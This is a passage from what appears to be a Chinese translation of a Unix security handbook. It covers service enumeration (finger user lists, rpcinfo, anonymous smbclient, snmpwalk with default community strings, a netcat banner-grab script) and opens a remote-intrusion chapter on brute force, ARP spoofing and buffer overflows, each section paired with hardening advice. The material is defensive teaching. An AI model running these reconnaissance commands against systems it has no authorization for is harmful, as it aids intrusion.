DNS 是用于域名与 IP 地址之间转换的协议。


### 获取 BIND 版本信息

Linux 和 Unix 上最常用的 DNS 服务器软件是 BIND（Berkeley Internet Name Domain，伯克利互联网域名）。可以使用 `dig` 工具查询特定主机上运行的 BIND 版本。例如，如果运行 BIND 的主机的 IP 地址为 192.168.1.1：

```bash
$ dig -t txt -c chaos VERSION.BIND @192.168.1.1
; <<>> DiG 9.2.1 <<>> -t txt -c chaos VERSION.BIND @192.168.1.1
; global options: printcmd
; Got answer:
; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22464
; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL:0
; QUESTION SECTION:
;VERSION.BIND.                  CH  TXT
; ANSWER SECTION:
VERSION.BIND.               0  CH  TXT  "8.3.3-REL"
; Query time: 40 msec
; SERVER: 192.168.1.1#53(192.168.1.1)
; WHEN: Wed Jan 15 09:46:22 2003
; MSG SIZE rcvd: 64
```

### 配置 BIND 不显示版本信息

编辑 BIND 配置文件 named.conf，并覆盖版本号：

```text
options {
    version "Not available";
}
```

你也许还想使用特定的 ACL 来配置 BIND，并限制来自特定主机的查询。有关详细信息，请参阅 BIND 文档。有关 BIND 的更多信息可以在 http://www.isc.org/products/BIND/ 上找到。

## Finger：79（TCP）

Finger 是一个用户信息查询程序。对远程主机执行 Finger 操作将提供有关当时登录该主机的人员的用户名、IP 地址、空闲时间和真实姓名等信息。

### 使用 Finger 命令枚举远程用户

如果远程主机正在运行 Finger 守护进程，则可以使用命令行 finger 工具查询该主机：

```bash
finger @host
```

示例：

```bash
$ finger @192.168.1.1
Login Name TTY Idle When Where
bob Bob pts/1 8 Wed 14:26 bobaddress.bobsisp.org
rob Robert Smith pts/4 51 Wed 12:46 dhcp_robshomeisp.org
tang Tomas Tang pts/3 1:08 Wed 10:07 somecasanexample.com
```

也可以 Finger 特定的用户名。查询特定用户名将提供有关该用户的一些信息，即使该用户当时未登录：

```bash
finger username@host
```

示例：

```bash
$ finger root@192.168.1.1
Login name: root
Directory: /
Last login Jan 11 14:26:51 on tty2
In real life: Sys Admin
Shell: /usr/local/bin/tcsh

New mail received Wed Jan 15 14:36:29 2003;
    unread since Wed Jan 11 14:29:54 2003

No Plan.
```

Solaris 旧版本的 fingerd（Finger 守护程序）已知包含一个漏洞，如果使用诸如“a b c d e f g h”之类的字符串进行查询，该漏洞会泄露主机上所有用户名的列表：

```bash
finger 'a b c d e f g h'@host
```

有关此漏洞的更多信息，请参阅 http://www.securityfocus.com/bid/3457/info/。


### 禁用 Finger

如果你正在运行 Finger 服务器，强烈建议你考虑以下建议：

- 如果可能，考虑禁用 Finger 服务。它向本地用户和入侵者提供了有关你系统的过多信息。如果你使用 inetd，可以通过注释掉 /etc/inetd.conf 中相应的行来禁用 finger。如果你使用 xinetd，请编辑 xinetd.d 目录中名为 finger 的文件，并确保存在以下行：
  ```
  disable = yes
  ```
- 为了使更改生效，你必须重启 inetd 或 xinetd。
- 如果你必须运行 Finger 服务器，请配置防火墙以丢弃传入到端口 79 的连接。这将防止外部网络上的用户查询你的主机。


### HTTP（超文本传输协议）：80（TCP）

HTTP 是一种无状态协议，用于分发各种超媒体。它最常用于提供 WWW（万维网）内容。

### 获取 HTTP 服务器横幅

为了从 HTTP 服务器抓取横幅信息，请 Telnet 到它们监听的端口并发出以下请求：

```
HEAD / HTTP/1.0[enter][enter]
```

例如：

```bash
$ telnet www.somecompanyasanexample.com 80
Trying 10.0.0.100...
Connected to www.somecompanyasanexample.com.
Escape character is '^]'.
HEAD / HTTP/1.0 [enter] 
[enter] 
HTTP/1.1 200 OK
Date: Wed, 15 Jan 2003 17:59:12 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/2.8.12 OpenSSL/0.9.6b
Content-Location: index.html.en
Vary: negotiate,accept-language,accept-charset
TCN: choice
Last-Modified: Thu, 09 May 2002 19:47:31 GMT
Accept-Ranges: bytes
Content-Length: 2673
Connection: close
Content-Type: text/html
Content-Language: en
Expires: Wed, 15 Jan 2003 17:59:12 GMT
Connection closed by foreign host.
```

一些 Web 服务器不允许 HEAD 请求。在这种情况下，我们必须执行 GET 查询：

```
GET / HTTP/1.0[enter][enter]
```

此查询将返回横幅信息以及默认索引页面（例如 index.html）。

如果你想请求特定的网页，例如 contact.html，你需要将它的名称和路径附加到 GET 请求中：

```
GET /contact.html HTTP/1.0[enter][enter]
```

> 有时，单个 Web 服务器可以用于提供多个域名的内容。在这种情况下，必须在请求中指定特定的域名。这可以通过在 GET 请求后输入“Host: domain-name”来实现。例如：
> GET / HTTP/1.0[enter]
> Host: www.domainname.com[enter][enter]

### 更改 HTTP 服务器横幅

如果你正在运行 Apache，请编辑你的 httpd.conf 文件并确保存在以下指令：

```
ServerSignature Off
ServerTokens Prod
```


# 第3章：信息枚举

禁用 `ServerSignature` 令牌将指示 Apache 在显示诸如“404-Not Found”等错误页面时不打印版本信息。`ServerTokens` 指令设置为 `Prod` 时，指示 Apache 仅在横幅中显示“Server: Apache”。如果你不想在 Server 标签中显示“Apache”，但希望显示如“Server: Not-allowed”之类的伪造信息，你需要：

1. 下载 Apache 源代码。
2. 编辑文件 `httpd.h`，并将以下行中字符串“Apache”的值更改为其他内容：
   ```c
   #define SERVER_BASEPRODUCT "Apache"
   ```
   更改为：
   ```c
   #define SERVER_BASEPRODUCT "Not-allowed"
   ```
3. 重新编译、重新安装并重启 Apache。

## POP3 (Post Office Protocol 3): 110 (TCP)

POP3 是一种用于从邮件服务器访问电子邮件的协议。

### 获取 POP3 服务器横幅

使用 Telnet 连接端口 110 以获取 POP3 服务器横幅信息：

```bash
$ telnet 10.0.1.1 110
+OK POP3 10.0.1.1 v4.39 server ready
```

### 更改 POP3 服务器横幅

许多 POP3 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，你必须获取 POP3 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦你编辑了源代码以反映新的横幅信息，请重新编译并重新安装 POP3 服务器。某些 POP3 服务器允许通过编辑相应的配置文件来更改横幅信息。有关详细信息，请参阅你的 POP3 服务器文档。

## Portmapper: 111 (TCP)

基于 RPC（远程过程调用）的服务，如 NIS（网络信息服务），并不监听静态端口。这些服务将其端口号注册到 Portmapper（端口映射器）。

### 向 Portmapper 查询 RPC 服务

可以使用 rpcinfo 工具向 Portmapper 服务器查询已注册的 RPC 服务。

```bash
rpcinfo -p hostname
```

例如：

```bash
$ rpcinfo -p 192.168.1.1
```

| Program | Version | Protocol | Port | Service |
| :--- | :--- | :--- | :--- | :--- |
| 100000 | 4 | tcp | 111 | portmapper |
| 100000 | 3 | tcp | 111 | portmapper |
| 100000 | 2 | tcp | 111 | portmapper |
| 100000 | 4 | udp | 111 | portmapper |
| 100000 | 3 | udp | 111 | portmapper |
| 100000 | 2 | udp | 111 | portmapper |
| 100024 | 1 | udp | 32782 | status |
| 100024 | 1 | tcp | 32779 | status |
| 100133 | 1 | udp | 32782 | |
| 100133 | 1 | tcp | 32779 | |
| 100021 | 1 | udp | 4045 | nlockmgr |
| 100021 | 2 | udp | 4045 | nlockmgr |
| 100021 | 3 | udp | 4045 | nlockmgr |
| 100021 | 4 | udp | 4045 | nlockmgr |
| 100021 | 1 | tcp | 4045 | nlockmgr |
| 100021 | 2 | tcp | 4045 | nlockmgr |
| 100021 | 3 | tcp | 4045 | nlockmgr |
| 100021 | 4 | tcp | 4045 | nlockmgr |
| 100005 | 1 | udp | 32795 | mountd |
| 100005 | 2 | udp | 32795 | mountd |
| 100005 | 3 | udp | 32795 | mountd |
| 100005 | 1 | tcp | 32784 | mountd |
| 100005 | 2 | tcp | 32784 | mountd |
| 100005 | 3 | tcp | 32784 | mountd |
| 100003 | 2 | udp | 2049 | nfs |
| 100003 | 3 | udp | 2049 | nfs |
| 100227 | 2 | udp | 2049 | nfs_acl |
| 100227 | 3 | udp | 2049 | nfs_acl |
| 100003 | 2 | tcp | 2049 | nfs |
| 100003 | 3 | tcp | 2049 | nfs |
| 100227 | 2 | tcp | 2049 | nfs_acl |
| 100227 | 3 | tcp | 2049 | nfs_acl |
| 100011 | 1 | udp | 51802 | rquotad |
| 100235 | 1 | tcp | 55451 | |
| 100004 | 2 | udp | 1007 | ypserv |
| 100004 | 1 | udp | 1007 | ypserv |
| 100004 | 1 | tcp | 762 | ypserv |
| 100004 | 2 | tcp | 51059 | ypserv |
| 100007 | 3 | udp | 56186 | ypbind |
| 100007 | 2 | udp | 56186 | ypbind |
| 100007 | 1 | udp | 56186 | ypbind |
| 100007 | 3 | tcp | 51390 | ypbind |
| 100007 | 2 | tcp | 51390 | ypbind |
| 100007 | 1 | tcp | 51390 | ypbind |

rpc.ruserd 和 rpc.who 服务是两个提供类似 finger 用户信息的 RPC 服务：

```bash
$ rusers -l 192.168.1.1
bob 192.168.1.1:pts/1 Jan 15 14:26 :08 (bob@ispaddress.bobhisp.org)
rob 192.168.1.1:pts/4 Jan 15 13:10 1:04 (dhcp.robo@homeisp.org)
```

```bash
$ rwho 10.0.0.1
deepi 10.0.0.10:pts/2 Jan 15 10:10
joe 192.168.1.11:pts/1 Jan 12 14:33
```

### 禁用 Portmapper 和 RPC 服务

如果你正在运行任何 RPC 服务，强烈建议采取以下措施：

- 如果没有运行任何 RPC 服务，请禁用 Portmapper。
- 通过注释掉 inetd.conf 中的相应行来禁用 rpc.ruserd 和 rpc.who。如果使用 xinetd，请查看 xinetd.d 目录，确保对应于你要禁用的服务的文件包含此行：`disable = yes`
- 禁用任何未使用的 RPC 服务。

你必须重启 inetd 或 xinetd 才能使更改生效。

## NNTP (Network News Transfer Protocol): 119 (TCP)

NNTP 是用于新闻文章的分布、查询、检索和发布的协议。

### 获取 NNTP 服务器横幅

许多 NNTP 服务器在连接时会打印版本信息：

```bash
$ telnet 192.168.1.1 119
Connected to 192.168.1.1.
Escape character is '^'.
200 192.168.1.1 InterNetNews NNRP server INN 1.4 22-Dec-93
ready (posting ok).
```

### 更改 NNTP 服务器横幅

许多 NNTP 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，你必须获取 NNTP 服务器的源代码，并使用 grep 命令搜索版本字符串。一旦你编辑了源代码以反映新的横幅信息，请重新编译并重新安装 NNTP 服务器。某些 NNTP 服务器允许通过编辑相应的配置文件来更改横幅信息。有关详细信息，请参阅你的 NNTP 服务器文档。

## Samba: 137 to 139 (TCP and UDP)

Samba 使用 SMB（Server Message Block，服务器消息块）协议通过网络共享文件和打印机。SMB 最常见于 Microsoft Windows 操作系统。有关 Samba 项目的详情，请参阅 http://www.samba.org/。

### 枚举 Samba 服务器信息

可以使用 Samba 的 smbclient 工具从远程 Samba 服务器枚举信息：

```bash
$ smbclient -L sambsaerver -I 10.0.0.1 -U ''
added interface ip=192.168.1.2 bcast=192.168.1.255 nmask=255.255.255.0
Password: [enter]
Domain=[REMOTE DOMAIN] OS=[Unix] Server=[Samba 2.2.8]
```

| Sharename | Type | Comment |
| :--- | :--- | :--- |
| IPC$ | IPC | IPC Service (Samba Server) |
| ADMINS | Disk | IPC Service (Samba Server) |

| Server | Comment |
| :--- | :--- |
| RSAMBSERVER | |

| Workgroup | Master |
| :--- | :--- |
| RGROUP | RMASTERHOST |


### 更改 Samba 服务器字符串和版本信息

可以采取以下步骤来加固 Samba 服务器配置：

- 编辑 `smb.conf` 并将 `server string = Samba Server` 更改为其他内容：`server string = no information`
    - 这将更改显示在每个共享名称旁边的描述字段。
- 此外，请在 `smb.conf` 中使用 `hosts allow` 和 `interfaces` 设置，以限制外部主机连接到你的 Samba 服务器。
- 为了更改实际的 Samba 版本信息，请编辑 `source/include/version.h` 文件并将常量 `VERSION` 的值更改为其他内容。你必须重新编译并重新安装 Samba 才能使更改生效。

## IMAP2/IMAP4 (Internet Message Access Protocol 2/4): 143 (TCP)

IMAP2/4 是一种用于从邮件服务器访问电子邮件的电子邮件访问协议。其功能包括将电子邮件存储在远程位置的能力。


### 获取 IMAP 服务器横幅

IMAP2/4 服务器在连接时已知会打印带有版本信息的欢迎横幅：

```bash
$ telnet 192.168.1.1 143
Connected to 192.168.1.1.
Escape character is '^'.
* OK 192.168.1.1 IMAPdrev1 v12.264 server ready
```


### 更改 IMAP 服务器横幅

许多 IMAP 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，你必须获取 IMAP 服务器的源代码，并使用 grep 命令搜索版本字符串。一旦你编辑了源代码以反映新的横幅信息，请重新编译并重新安装 IMAP 服务器。某些 IMAP 服务器允许通过编辑相应的配置文件来更改横幅信息。有关详细信息，请参阅你的 IMAP 服务器文档。


## SNMP (Simple Network Management Protocol): 161, 162 (UDP)

SNMP 是一种用于管理 IP 网络中路由器、交换机等节点节点的管理协议。

### 枚举 SNMP

SNMP 服务器配置有“团体字符串（community string）”，其作用类似于用户 ID 或密码。当使用错误的团体字符串查询 SNMP 服务器时，它不会响应。许多 SNMP 服务器有默认团体字符串，如“public”和“private”。当使用正确的团体字符串查询 SNMP 服务器时，可以获得有用的信息：

```bash
$ snmpwalk 10.0.0.1 public
TCP/IP
system.sysObjectID.0 = OID: enterprises.36.2.15.2.3
system.sysUpTime.0 = Timeticks: (190724809) 22 days, 1:47:28.09
system.sysContact.0 = unknown
system.sysName.0 = 10.0.0.1
system.sysLocation.0 = Room G11, Ground Floor
interfaces.ifTable.ifEntry.ifPhysAddress.1 = 0:0e7:1:e3:1
interfaces.ifTable.ifEntry.ifPhysAddress.2 =
interfaces.ifTable.ifEntry.ifPhysAddress.3 =
interfaces.ifTable.ifEntry.ifPhysAddress.4 =
```

前面的输出仅是通常长达几百行的输出的一个片段。显然，上述信息提供了大量的配置细节。snmpwalk 命令是大多数 Unix 和 Linux 发行版厂商提供的 net-snmp-utils 包的一部分。也可以从 http://www.net-snmp.org/ 获取。

### 防止 SNMP 枚举

如果你有任何主机配置为使用 SNMP，请考虑采取以下预防措施：

- 使用 SNMP 版本 2 或 3。
- 使用难以猜测的团体字符串。


- 不要允许防火墙接收传入的 SNMP 流量。
- 限制你的 SNMP ACL，仅允许来自特定主机的连接。

## HTTPS（安全超文本传输协议）：443（TCP）

HTTPS 是基于 SSL（安全套接字层）的 HTTP。HTTPS 使用 SSL 来建立和维护安全通道，因此它提供客户端与服务器之间的加密通信。

### 获取 HTTPS 服务器横幅

可以使用命令行 openssl 工具连接到 HTTPS 服务器。与 HTTP（80 端口）发生的情况类似，可以使用诸如

```
HEAD / HTTP/1.0 [enter][enter]
```

或

```
GET / HTTP/1.0 [enter][enter]
```

这样的请求来获取横幅信息。

示例：

```
[bash]$ openssl s_client -connect:192.168.1.1:443
[已删除证书的各个项目]

HEAD / HTTP/1.0[enter]
[enter]
HTTP/1.1 200 OK
Date: Wed, 15 Jan 2003 17:59:12 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/2.8.12 OpenSSL/0.9.6h
Content-Location: index.html.en
Vary: negotiate,accept-language,accept-charset
TCN: choice
Last-Modified: Thu, 09 May 2002 19:47:31 GMT
Accept-Ranges: bytes
Content-Length: 2673
Connection: close
Content-Type: text/html
Content-Language: en
Expires: Wed, 15 Jan 2003 17:59:12 GMT

Closed
```

### 更改 HTTPS 服务器横幅

请参阅“更改 HTTP 服务器横幅”。

## NNTPS（安全网络新闻传输协议）：563（TCP）

NNTPS 是基于 SSL（安全套接字层）的 NNTP。NNTPS 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

### 抓取 NNTPS 服务器横幅

可以使用命令行 openssl 工具连接到 NNTPS 服务器以获取横幅信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:563
```

[已删除证书信息的各个项目]

```
200_192.168.1.1 InterNetNews NNRP server INN 1.4 22-Dec-93 ready
(posting_ok).
```

OpenSSL 可在 http://www.openssl.org/ 获取。

### 更改 NNTPS 服务器横幅

请参阅“更改 NNTP 服务器横幅”。

## IMAPS（安全互联网消息访问协议）：993（TCP）

IMAPS 是基于 SSL（安全套接字层）的 IMAP。IMAPS 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

### 抓取 IMAPS 服务器横幅

可以使用命令行 openssl 工具连接到 IMAPS 服务器以获取横幅信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:993
```

[已删除证书信息的各个项目]

* OK [CAPABILITY IMAP4 IMAP4rev1 LOGIN-REFERRALS AUTH=LOGIN]
localhost IMAP4rev1 2000.283 at Thu, 16 Jan 2003 03:51:56 -0500 (EST)

OpenSSL 可在 http://www.openssl.org/ 获取。

### 更改 IMAPS 服务器横幅

请参阅“更改 IMAP 服务器横幅”。

## POP3S（安全邮局协议 3）：995（TCP）

POP3S 是基于 SSL（安全套接字层）的 POP3。POP3S 使用 SSL 来建立和维护安全通道，因此提供客户端与服务器之间的加密通信。

### 获取 POP3S 服务器横幅

可以使用命令行 openssl 工具连接到 POP3S 服务器以获取横幅信息：

```
(bash)$ openssl s_client -connect:192.168.1.1:995
```

[已删除证书信息的各个项目]

```
+OK QPOP (version 2.53) at 192.168.1.1 starting.
<3413.1213453134@192.168.1.1>
```

OpenSSL 可在 http://www.openssl.org/ 获取。

### 更改 POP3S 服务器横幅

请参阅“更改 POP3 服务器横幅”。

## MySQL：3306（TCP）

MySQL 是一种流行的开源数据库软件包。它可在 http://www.mysql.com/ 获取。

### 枚举 MySQL 版本信息

通过使用 telnet 客户端连接其端口，可以获取远程 MySQL 服务器的版本号：

```
(bash)$ telnet 10.0.0.1 3306
Trying 127.0.0.1...
Connected to 127.0.0.1. Escape character is `^]`.
(
3.23.45&r/3N0d*Connection closed by foreign host.
```

### 仅允许本地连接

不要允许内网外的主机连接到 MySQL 服务。确保存在防火墙规则以阻止此类连接尝试。应鼓励授权的外部用户使用 SSH 等安全隧道工具来建立远程连接。

> 虽然可以编辑 MySQL 源代码以更改连接时立即显示的版本信息，但这样做很可能会破坏许多 MySQL 客户端。

## 自动抓取横幅

Netcat 是一个使用 TCP 或 UDP 在网络连接上读写数据的工具。它可以像命令行 Telnet 客户端一样用于连接远程服务器，或者监听特定端口以接收传入连接。它还有很多其他有趣的功能，这些将在后续章节中探索。Netcat 可在 http://www.atstake.com/research/tools/network_utilities/ 获取。

可以使用 Netcat 以如下方式抓取 SMTP 横幅：

```bash
$ nc 192.168.1.1 25
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09:28:02 -0500 (EST)
```

通过少量的 bash shell 编程，你可以使用 Netcat 执行自动横幅抓取。例如，考虑以下脚本（让我们称之为 *grab.bash*）：

```bash
#!/bin/bash
if [ $# -lt 1 ]
then
    echo Usage: $0 host
    exit 1
fi

while [ "$i" -lt 26 ]
do
    nc -v $1 $i < /dev/null
    i=`expr $i + 1`
    echo
done
```

该脚本由一个 while 循环组成，变量 $i$ 的值从 21 到 25。在 while 循环中，在值为 $i$（21 到 25）的端口上建立与主机（传递给脚本的第一个参数，即 $1$）的连接，并且 /dev/null 被作为输入提供给 Netcat 连接。由于 /dev/null 是一个不包含任何内容（空）的特殊文件，Netcat 将在抓取横幅的第一行（如果有）后立即终止。

在尝试执行上述脚本之前，必须授予执行权限：

```
[bash]$ chmod u+x ./grab.bash
```

现在运行脚本：

```
[bash]$ ./grab.bash 192.168.1.1
192.168.1.1 [192.168.1.1] 21 (ftp) open
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
221 You could at least say goodbye.

192.168.1.1 [192.168.1.1] 22 (ssh) open
SSH-1.99-OpenSSH_3.4p1

192.168.1.1 [192.168.1.1] 23 (telnet) : Connection refused

192.168.1.1 [192.168.1.1] 24 (?) : Connection refused

192.168.1.1 [192.168.1.1] 25 (smtp) open
220 192.168.1.1 ESMTP Sendmail 8.9.3/8.9.3; Fri, 17 Jan 2003
14:13:10 -0500 (EST)
```

如果需要在各种主机上执行上述脚本，你可以编写一个针对你的 grab.bash 脚本的封装器，如下所示：

```
#!/bin/bash

for i in `cat hosts.txt`
do
    ./grab.bash $i
    echo
done
```


上述脚本，可以称为 wrapper-grab.bash，将针对在 hosts.txt 文件中列出的主机执行我们的原始脚本 grab.bash。hosts.txt 文件必须包含目标主机的主机名或 IP 地址，如下所示：

```
192.168.1.1
10.0.0.1
somecompanyasanexample.com
```

虽然上述脚本适用于大多数服务，但请记住，你需要发出 HEAD 请求才能获取 HTTP 横幅。为了做到这一点，可以像这样使用 Netcat，

```
nc hostname 80 < getrequest.txt
```

其中 getrequest.txt 是一个包含以下内容的文件：

```
HEAD / HTTP/1.0[enter]
[enter]
```

请记住，对于如前所述的 HTTPS、NNTPS、IMAPS 和 POP3S 等 SSL 端口，请使用 openssl 而不是 Netcat。

## 摘要

本章介绍了使用 Amap 工具识别运行在非标准端口上的服务的方法，以及如何手动和自动识别运行在标准端口上的服务。你还学习了远程枚举用户名的不同方法。现在，你准备好进入第 4 章，在那里你将利用本章获得的信息来利用远程服务，以获取易受攻击主机的访问权限。


# 第4章

# 远程入侵

本章内容：

- 远程服务
- Nessus
- 获取Shell
- 端口重定向
- 破解 /etc/shadow
- 总结

本章将重点介绍入侵者常用来获取远程主机未授权访问权限的技术。在识别服务并枚举所有可能的用户后，攻击者的下一个逻辑步骤是利用目标主机上已知服务和应用程序的漏洞来攻破受害主机。

## 远程服务

如果目标主机的主要目标是充当服务器，则必须允许通过相关的 TCP 或 UDP 端口进行远程访问。只要存在一个开放的网络端口，就意味着存在一个机会，允许未经身份验证的用户尝试入侵。

在查看常见被利用服务的详细列表之前，我们首先必须理解入侵者使用的不同战术类型。

### 入侵战术

根据远程主机上开放的端口和服务，攻击者可能会选择使用许多不同的技术来尝试未授权访问。以下部分描述了潜在入侵者远程攻破易受攻击主机的许多常见战术。

### 暴力破解

如果远程服务通过用户名和密码对验证用户，那么获取访问权限的最明显方法是尝试所有可能的用户名和密码组合。一种更高效的方法是使用第3章中描述的成功的用户名枚举技术积累到的已知用户名进行尝试。由于用户倾向于选择字典中可找到的易记密码，许多暴力破解工具利用语言字典文件。

为了接下来的示例目的，我们将使用 Hydra，这是一个支持各种协议的暴力破解工具。可以从 http://www.thehackerschoice.com/releases.php 下载。

> 此处描述的尝试所有可能的用户名和密码组合的行为被称为“主动”暴力破解。另一方面，像 John the Ripper 这样的密码破解器可以用来对密码哈希进行暴力破解，这种技术被称为“被动”暴力破解。详情参见本章末尾的“破解 /etc/shadow”。



### 针对暴力破解攻击的常见防御措施

以下是一些可以更好地防御用户名和密码暴力破解的预防措施：

- 强制用户使用强密码。位于 http://www.tee-soft.ec/unix/software/npasswd/ 的 npasswd 和位于 http://www.openwall.com/passwdqc/ 的 pam_passwdqc 等实用工具有助于执行强密码策略。
- 要求密码过期并执行密码长度限制。根据您的发行版，编辑 /etc/default/passwd 或 /etc/login.defs 来执行此操作。
- 考虑使用动态密码方案，例如 S/KEY 和 SecurID。

### 嗅探

在正常操作期间，发往其他主机的网络数据包会被网卡忽略。然而，大多数网卡可以设置为通过嗅探程序（也称为“网络分析器”）运行在“混杂模式”下，从而使网卡将所有接收到的网络数据包传递给操作系统的 TCP/IP 协议栈。这允许某人检查主机接收到的每个网络数据包。由于许多协议以明文传输数据，恶意用户可以使用网络分析软件捕获通过网络传输的关键数据，例如用户名和密码。

在集线器网络中，同一网络段上的主机发送和接收的数据包会被所有其他参与主机接收。在这种情况下，恶意用户只需将其网卡设置为混杂模式，即可捕获网络段上的所有数据。

然而，在交换网络中，硬件交换机设备确保主机仅接收发往它们的数据包。每个以太网网络设备都由其供应商分配一个12位十六进制数字。这个数字被称为该设备的 MAC（媒体访问控制）地址。当交换网络上的主机传输数据时，其 MAC 地址会被交换机记录并存储在缓存中。发往该主机 MAC 地址的未来数据包将被传输到主机连接到的交换机硬件端口。可以使用诸如 Ettercap 之类的工具执行 ARP 欺骗，其中伪造的 ARP（地址解析协议）回复被用于在交换机上代理流量。考虑以下存在于网络交换机上的主机：

- V 受害主机
- G 网关主机
- M 恶意主机

为了执行 ARP 欺骗，主机 M 将向主机 G 和 V 发送 ARP 回复数据包。这些 ARP 回复数据包将导致主机 V 将主机 M 的 MAC 地址与主机 G 的 IP 地址映射，并导致主机 G 将主机 M 的 MAC 地址与主机 V 的 IP 地址映射。由于以太网数据包根据 MAC 地址路由，主机 M 将接收发往主机 G 和 V 以及从它们发出的所有数据包。现在，如果主机 M 通过将 MAC 地址替换为主机 G 或 V 的 MAC 地址来将这些数据包路由到正确的目的地，那么受害主机 G 和 V 将完全不知道它们的连接正被主机 M 代理。可以使用诸如 Dsniff 和 Ettercap 之类的工具执行 ARP 欺骗。

Ettercap 可在 http://ettercap.sourceforge.net/ 下载。Dsniff 可在 http://monkey.org/~dugsong/dsniff/ 获取。

### 常见的嗅探对策

网络嗅探工具使恶意用户能够轻松捕获网络段上的数据。强烈建议采取以下对策：

- 不要使用明文协议。
- 某些交换机允许管理员静态映射 MAC 地址。然而，这可能对大型企业不可行。
- 许多 IDS（入侵检测系统）能够检测和报告 ARP 欺骗。Ettercap 可用于帮助检测网络上的伪造 ARP 回复。

### 中间人攻击

这种类型的攻击涉及恶意用户截获并修改两个或多个受害主机之间的数据。

例如，请注意，在成功攻破 somecompanyasanexample.com 的内部 DNS 服务器后，入侵者可能会更改 DNS 服务器配置，使所有针对 intranet.somecompanyasanexample.com 的 DNS 查询都指向入侵者的 IP 地址。这将导致用户在不知情的情况下连接到入侵者的主机，而不是 intranet.somecompanyasanexample.com。入侵者随后可以通过连接到 intranet.somecompanyasanexample.com 的真实 IP 地址来代理受害者的连接。在这种情况下，入侵者将成功发起中间人攻击。

### 防止中间人攻击

使用 SSH、IMAPS 和 HTTPS 等安全协议。虽然这些协议可能容易受到中间人攻击，但它们使用加密密钥和证书，这会促使软件客户端警告终端用户可能存在攻击。

### 配置错误

通常，服务配置错误会向未经身份验证的用户暴露不必要信息。有时，配置错误可能导致主机被完全攻破。常见配置错误及其防御措施列在下文“远程服务漏洞”部分中。

### 审计和加固主机配置

定期审计和加固主机配置策略是一个好主意。参见本书第二部分中关于如何加固策略和服务的章节。

#### 软件漏洞

软件漏洞是由设计缺陷引起的，例如不正确的输入验证和边界检查。此类漏洞通常可远程利用，使攻击者能够在运行易受攻击软件的主机上执行恶意代码。

缓冲区溢出是许多可远程利用状况的原因。当进程向内存中分配的缓冲区空间之外写入数据时就会发生这种情况。这导致可执行堆栈空间被任意数据覆盖。攻击者可能通过提供恶意构造的输入来利用这种状况，该输入可能导致进程用攻击者提供的可执行数据覆盖其堆栈空间。有关更多信息和细节，请参阅“Smashing the Stack for Fun and Profit”，作者为“Aleph One”，可在 http://www.insecure.org/stf/sma$h.txt 获取。


许多在线安全资源都会发布针对各种漏洞的利用代码。请注意此类利用工具，因为它们可能且已知包含恶意后门，从而导致执行该利用代码的主机遭到入侵。在虚拟机环境中测试未知利用工具是一个不错的主意。最广泛使用的虚拟机软件由 VMware 提供。详情请参阅 [http://www.vmware.com/](http://www.vmware.com/)。

## 针对软件漏洞利用的常见防御措施

有时，在漏洞公告或补丁发布之前，软件漏洞的远程利用工具就已发布。此类利用工具通常被称为*零日漏洞利用*。针对未公开漏洞的利用工具是无法防御的。然而，每位系统管理员除了遵循以下建议外，还必须监控并应对异常的系统活动：

- 保持软件补丁更新。
- 订阅漏洞观察列表，如 Bugtraq。（请访问 [http://securityfocus.com/cgi-bin/sfonline/subscribe.pl](http://securityfocus.com/cgi-bin/sfonline/subscribe.pl) 获取更多信息。）参阅本书参考资料中心中的“在线资源”部分，以获取指向许多其他安全资源的指引。
- 为防止某些类型的缓冲区溢出，有几种解决方案可用：
  - StackGuard: [http://www.immunix.org/stackguard.html](http://www.immunix.org/stackguard.html)
  - Libsafe: [http://www.research.avayalabs.com/project/libsafe/](http://www.research.avayalabs.com/project/libsafe/)
  - StackGhost: [http://stackghost.cerias.purdue.edu/](http://stackghost.cerias.purdue.edu/)
  - Openwall: [http://www.openwall.com/linux](http://www.openwall.com/linux)

如果使用 Solaris，请编辑 `*/etc/system*` 并添加以下行：

```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```

- 监控并处理入侵检测系统（IDS）日志。

## 远程服务漏洞

以下是常被利用的服务列表。它基于这些服务通常监听的众所周知的标准端口号。

### 识别运行在非标准端口上的服务

这里列出的任何服务都可以配置为监听非标准端口。像 Amap 这样的工具（可在 `http://www.thehackerschoice.com/releases.php` 获取）可用于确定监听未知或非标准端口的服务：

```
[bash]$ amap -st intrnet,somecompanyasanexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar 9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar 9 09:30:59 2003
```

在这个例子中，Amap 成功发现主机 `intrnet.somecompanyasanexample.com` 在端口 9934 上运行 HTTPS。这是一个有用的信息，因为 HTTPS 的标准保留端口是 443。



### 阻断并停止不必要的服务

某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 HTTP 服务器必须接受来自任何 IP 地址的连接，以便允许所有位置的远程用户查看该组织的网站。在这种情况下，组织不可能隐藏其正在运行 HTTP 服务器的事实。

然而，根据组织的需求和网络架构，某些服务可能只预期来自授权 IP 地址的连接。在这种情况下，应实施防火墙规则以确保来自未授权 IP 地址的连接被阻断。此外，必须关闭或通过防火墙规则阻断不必要的服务。这将防止未授权的远程主机对不应可访问的服务进行利用和识别。

### FTP (文件传输协议): 21 (TCP)

FTP 是一种用于在主机之间传输文件的协议。

- **暴力破解** 可以使用 Hydra 暴力破解 FTP 账户。

#### 暴力破解 FTP

